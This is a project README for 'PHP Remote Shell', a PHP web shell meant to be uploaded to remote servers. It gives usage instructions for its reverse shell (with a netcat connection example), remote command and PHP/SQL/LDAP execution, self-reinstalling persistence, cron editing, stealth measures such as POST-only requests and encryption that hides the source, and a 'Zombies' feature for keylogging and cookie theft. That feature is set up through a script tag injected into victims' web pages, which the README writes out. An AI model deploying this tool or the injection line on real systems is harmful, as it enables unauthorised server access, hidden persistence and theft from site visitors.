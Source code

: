 # PHP Remote Shell

[Project homepage](https://phpremoteshell.esaracco.fr)

PHP Remote Shell is a Swiss army knife for exploring servers via the Web. It contains a reverse shell in PHP, a full file browser, the ability to execute shell commands or PHP / SQL / LDAP code, crontab management and « zombies » management. It can also nest itself in existing files in order to redeploy automatically during their execution. If it has been previously encrypted, it is able to decrypt itself on the fly.

It was designed to be robust and work with just about any POSIX server with a decent version of PHP. It may look a bit rustic at times, but it should work everywhere.

PHP Remote Shell will be as silent as possible, using only POST requests, displaying images using inline data, keeping session in its own file instead of cookies when possible, and so on.

## Requirement

You need a POSIX machine with PHP CLI on local, and a POSIX server with a PHP web service up on remote.

## Installation
If you retrieved PRS by cloning the Git repository, you first need to change the permissions of some files as follows :
```bash
chmod +x encryption/crypt.php strip/strip.php
```
To install and use PRS you just have to put `prs.php` somewhere on the Web and access it with a POST request (GET requests will display a HTTP 404 error).

The simplest way to request PRS URL once uploaded is to open `launcher.html` with a web browser and fill the form.

You can use PRS _as is_ or you can encrypt it before uploading it on the remote host. Encryption is a guaranty for you that nobody will read the source code neither your authentication parameters if any. Knowing this, you can add what you want in it, your secrets will be well protected, even on remote :-)

To encrypt the script, go to `encryption/` and execute `./crypt.php yourpasswd`. The final encrypted `prs.php` file will be created in the same directory. This is the file to upload on remote host.

The `launcher.html` file allow you to specify your encryption password before requesting the PRS page.

To force PRS to ask for authentication, edit the script and fill the `Authentication` section constants.

To allow direct download of PRS file, just pass it `prsds=` as URL parameter :

```
http://remote-server/prs.php?prsds=
```

_Note that this will not work if you previously defined `CHECK_AUTH` or if you have encrypted PRS file_.

The original script name of PRS is `prs.php` but you can rename it as you want !

## Usage

### Edit

Allow you to open the `Profiles management` popup to save sessions and retrieve them later.

### Remote information

Displays the result of some common tools, plus the output of the `phpinfo()` function if available.

### Shell

#### Reverse shell

If the remote PHP allows it, let you choose a remote IP and port on which listening with a full PHP reverse shell.

It is just a basic shell, which means that sometimes it will not work and that the connection may be cut of or looped at any time. Some commands will be rewritten (like `ping` or `top`), others will be emulated (like `clear`). It is likely that in dying (when you grab the `shutdown` command from your client) it causes a zombie process.

Use `netcat` or any other client on your local machine to execute bash commands on the remote host.

```bash
you@local~$ nc 192.168.3.5 4000
PRS reverse shell 0.12.1
'quit' to quit, 'shutdown' to kill, 'help' for this help
www-data@192.168.3.5 /var/wwww$
```

#### Command execution

Sometime, reverse shell is not possible. This section allows you to execute bash commands and see their results directly from the PRS web page.

### PHP code

With this feature, you can write PHP code, execute it on the remote host and see the result.

### File browser

PRS file browser allows you a lot of things. You can create/edit/delete files, view symlinks and so on. It looks a lot like the output of the `ls` command, with some improvements.

#### Host me in

This feature of the file browser bottom menu allows you to « host » PRS on another PHP script. If someone ever erases it, it would be automatically recreated by calling this page.

### Crontab

Where possible, it allows you to edit, save or even remove the crontab of the current web user.

### Zombies

_This feature will not work if PRS file has been previously encrypted._ Use it only for fun and non-profit ;-)

You can have fun spying remote user's keyboard, injecting code, stealing cookies and so on. You can also web ping hosts on user's private network before launching CSRF attack for example. But, once again : it is instable, not stealth...

To create a zombie, inject the following HTML code in a web page :
```html
<script src="http://remote-server/prs.php?z=js"></script>
```
Then go to the PRS `Zombies` menu and wait until it appears on the list.

### SQL / LDAP

This menu allows you to access remote SQL or LDAP database assuming you know their access settings. For now it can manage MySQL (`mysql`, `mysqli`, `pdo_mysql`), PostgreSQL (`pgsql`, `pdo_pgsql`) and LDAP. It offers some basic macros, but most of the work will have to be done in SQL.

## License
GPL

